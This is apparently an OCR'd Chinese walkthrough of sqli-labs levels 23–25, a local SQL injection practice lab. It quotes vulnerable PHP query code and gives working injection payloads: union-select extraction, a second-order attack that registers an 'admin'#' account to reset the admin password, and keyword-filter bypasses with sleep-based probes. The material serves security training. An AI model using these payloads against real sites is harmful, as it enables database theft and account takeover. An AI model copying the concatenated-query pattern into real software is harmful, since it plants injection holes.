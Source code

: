*$replace = "";*

*$id = preg_replace($reg, $replace, $id);*

*$id = preg_replace($reg1, $replace, $id);*

$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1"; 

**payload**

http://127.0.0.1/sqli-labs/Less-23/?id=-1'  union select 1,user(),3’ 

不使用注释符，但可以拼接闭合sql语句

Sql语句为单引号闭合，所以payload可以先用一个单引号闭合前面的单引号，然后再最后放置一个单引号和语句中的后面的单引号闭合

Payload 为什么前面的数字使用-1 是因为 sql语句后面有limit ，如果前面的条件为真，则回显前面的结果。

SELECT * FROM users WHERE id='-2' union select 1,version(),3'' LIMIT 0,1 





##第24关 

二阶sql注入，通过注册时将特殊字符代入 

注册时候注册admin’# 账号，这样在修改密码的时候通过单撇去闭合前面的sql语句，然后用#去注释后面的sql代码 

UPDATE users SET PASSWORD='123456' where username='admin'#' and password='test1324' <font size="3" color="#FFFF00"><center>Password successfully updated</center>   



mysql_escape_string 函数，转义单撇双引号类特殊字符，但存储的数据库的时候是输入的原字符。不会把转义字符也存入到数据内； 

payload解释 

通过login_create.php页面创建账号， 

Sql语句内使用双引号可以使用转义 



##第25关 

过滤了and 和 or 

源代码 

$id= preg_replace('/or/i',"", ​$id);         //strip out OR (non case sensitive) 

$id= preg_replace('/AND/i',"", $id);        //Strip out AND (non case  

sensitive) 

$sql="SELECT * FROM users WHERE id='​$id' LIMIT 0,1”; 



http://127.0.0.1/sqli-labs/Less-25?id=-1' union select 1,user(),3 — + 

http://127.0.0.1/sqli-labs/Less-25?id=-1' oorr sleeP(5) -- + 

http://127.0.0.1/sqli-labs/Less-25?id=1' anandd left(database(),8)='security'— - 

http://127.0.0.1/sqli-labs/Less-25?id=1' %26%26 left(database(),8)='security'-- - 
